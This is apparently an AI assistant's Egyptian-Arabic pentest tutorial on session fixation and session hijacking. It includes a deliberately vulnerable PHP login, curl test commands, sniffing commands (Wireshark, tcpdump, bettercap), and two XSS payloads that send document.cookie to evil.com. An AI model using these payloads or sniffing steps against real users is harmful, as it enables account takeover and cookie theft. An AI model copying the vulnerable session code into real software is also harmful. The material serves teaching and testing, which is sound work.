 تمام، هشرحلك القسم ده عن "تثبيت الجلسة واختطافها" (Session Fixation and Hijacking) بعمق وعملي مع أكواد وأوامر، وبعد كل جزء هاديك خلاصة Pentest بالعامية المصرية، وفي الآخر هاديك سيناريوهات الاستغلال الممكنة.

---

### **1. تثبيت الجلسة (Session Fixation)**
#### **شرح عملي:**
تثبيت الجلسة هو هجوم بيحصل لما المهاجم بيخليك تستخدم Session ID (معرف الجلسة) هو اللي مختاره، وبعدين لما تسجل دخولك، الـ Session ID ما بيتغيرش. يعني لو المهاجم عرف الـ ID ده قبلك، يقدر يدخل بحسابك بعد ما تسجل.

- **كيف بيحصل؟** المهاجم بيبعتلك لينك فيه Session ID محدد (مثلاً في URL أو كوكيز)، ولو الموقع مش بيجدد الـ ID بعد الLogin، المهاجم بيستخدم نفس الـ ID.

#### **كود عملي (PHP مع ثغرة Session Fixation):**
- كود PHP ضعيف:
```php
<?php
session_start();
if (isset($_GET['sessionid'])) {
    session_id($_GET['sessionid']); # المهاجم بيحدد الـ ID
}
if (isset($_POST['username']) && $_POST['username'] == 'admin' && $_POST['password'] == 'admin123') {
    $_SESSION['loggedin'] = true;
    echo "تم تسجيل الدخول!";
} elseif (isset($_SESSION['loggedin'])) {
    echo "أنت مسجل بالفعل!";
} else {
    echo "ادخل بياناتك!";
}
?>
```
- لو المهاجم بعتلك لينك زي:
```
http://example.com/login.php?sessionid=abc123
```
- وأنت سجلت دخولك، الـ Session ID هيفضل `abc123`. المهاجم يفتح نفس الـ ID في متصفحه ويدخل بحسابك!

#### **أمر عملي (تجربة يدوية):**
- افتح اللينك بـ `curl`:
```bash
curl -c cookies.txt "http://<IP>/login.php?sessionid=abc123"
curl -b cookies.txt -d "username=admin&password=admin123" "http://<IP>/login.php"
```
- لو رجعلك "تم تسجيل الدخول"، جرب نفس الـ Session ID في متصفح تاني:
```bash
curl -b "PHPSESSID=abc123" "http://<IP>/login.php"
```
- لو دخلك، يبقى فيه Session Fixation.

#### **خلاصة Pentest بالعامية:**
"لو لقيت موقع بياخد Session ID من الـ URL أو الكوكيز وما بيغيرهوش بعد الLogin، ابعت لنفسك لينك فيه ID وشوف لو بيخليك تدخل بنفس الـ ID تاني. لو نفع، يبقى المهاجم ممكن يسرق حسابك بسهولة!"

---

### **2. اختطاف الجلسة (Session Hijacking)**
#### **شرح عملي:**
اختطاف الجلسة هو لما المهاجم بيسرق الـ Session ID بتاعك بعد ما تسجل دخولك، وبيستخدمه عشان يدخل بحسابك. ده بيحصل لو الـ Session ID متسرب (زي في HTTP مش HTTPS) أو لو فيه ثغرة XSS بتسرق الكوكيز.

- **مثال:** لو الموقع بيبعت الكوكيز عبر HTTP، المهاجم بيقدر يعترضها بـ MITM (Man-in-the-Middle).

#### **كود عملي (XSS لسرقة Session ID):**
- لو الموقع فيه ثغرة XSS، المهاجم بيحقن كود زي:
```html
<script>
document.location='http://evil.com/steal.php?cookie='+document.cookie;
</script>
```
- لما تدخل الصفحة دي، الكوكيز (فيها الـ Session ID) بتتبعت لسيرفر المهاجم.

#### **أمر عملي (اعتراض بـ Wireshark):**
- شغل Wireshark:
```bash
wireshark -i eth0 -f "port 80"
```
- لو شفت الـ Session ID (زي `PHPSESSID=xyz789`) في طلب HTTP مش مشفر، خده وجرب تستخدمه:
```bash
curl -b "PHPSESSID=xyz789" "http://<IP>/dashboard"
```
- لو دخلك، يبقى اختطفت الجلسة!

#### **خلاصة Pentest بالعامية:**
"لو الموقع مش بيستخدم HTTPS أو فيه XSS، جرب تعترض الكوكيز بـ Wireshark أو تحقن سكربت يسرقها. خد الـ Session ID وحطه في متصفحك، لو دخلت يبقى خطفت الحساب!"

---

### **3. تأثير المشكلة وكيفية اكتشافها**
#### **شرح عملي:**
- **التأثير:** المهاجم بيقدر يتحكم في حسابك، يشوف بياناتك، أو ينفذ حاجات باسمك لو نجح في التثبيت أو الاختطاف.
- **الاكتشاف:** بتشوف الـ Session ID بيتبعت ازاي (URL، كوكيز)، بيتشفر ولا لأ، وبيتجدد ولا لسه ثابت.

#### **أمر عملي (فحص بـ Burp Suite):**
- افتح Burp، اعترض طلب Login، شوف الـ Session ID قبل وبعد تسجيل الدخول:
  - لو ثابت، يبقى فيه Session Fixation.
  - لو بيتبعت عبر HTTP، يبقى عرضة لـ Hijacking.

#### **أمر عملي (فحص HTTPS):**
```bash
curl -I http://<IP>
```
- لو ما فيهوش `Strict-Transport-Security` أو بيرد عبر HTTP، يبقى الكوكيز ممكن تتسرق.

#### **خلاصة Pentest بالعامية:**
"اعترض الطلبات بـ Burp، لو الـ Session ID ما بيتغيرش أو بيتبعت Plaintext، يبقى الموقع ضعيف. جرب تسرق الكوكيز أو تثبت الـ ID وشوف لو بتدخلك!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Session Fixation:**
   - **URL-Based:** ابعت لينك زي `http://<IP>/login?sessionid=abc123` للضحية، انتظرها تسجل، واستخدم نفس الـ ID:
     ```bash
     curl -b "PHPSESSID=abc123" "http://<IP>/dashboard"
     ```
   - **Weak App:** لو التطبيق بيقبل Session ID من الكوكيز بدون تجديد، زرعه يدوي وانتظر الLogin.

2. **Session Hijacking:**
   - **MITM:** استخدم أداة زي Bettercap تعترض الكوكيز على شبكة Wi-Fi:
     ```bash
     bettercap -iface wlan0 -caplet http-ui
     ```
     خد الـ Session ID وحطه في متصفحك.
   - **XSS:** لو فيه ثغرة XSS، حط كود يسرق الكوكيز:
     ```html
     <img src=x onerror="fetch('http://evil.com?c='+document.cookie)">
     ```
   - **HTTP Leak:** لو الموقع مش HTTPS، اسمع الطلبات بـ tcpdump:
     ```bash
     tcpdump -i eth0 port 80 -w capture.pcap
     ```

3. **مشترك:**
   - **No Secure Flag:** لو الكوكيز بدون `Secure` أو `HttpOnly`، اسرقها بـ XSS أو MITM.
   - **Predictable IDs:** لو الـ Session ID متوقع (زي `user1`, `user2`)، جرب تخمنه يدوي.
   - **Session Replay:** خد Session ID قديم وجرب تستخدمه لو الموقع ما بيبطلش الجلسات القديمة:
     ```bash
     curl -b "PHPSESSID=old123" "http://<IP>/dashboard"
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!